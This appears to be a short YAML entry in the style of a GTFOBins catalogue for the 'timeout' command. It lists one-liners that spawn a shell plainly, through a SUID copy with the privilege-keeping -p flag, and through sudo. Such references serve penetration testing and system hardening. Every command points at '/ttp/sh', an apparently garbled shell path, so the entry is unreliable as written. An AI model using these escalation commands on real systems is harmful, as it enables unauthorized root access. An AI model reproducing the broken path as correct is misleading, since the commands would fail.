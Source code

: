 ```yaml
---
functions:
  shell:
    - code: timeout 7d /ttp/sh
  suid:
    - code: ./timeout 7d /ttp/sh -p
  sudo:
    - code: sudo timeout --foreground 7d /ttp/sh
---
```

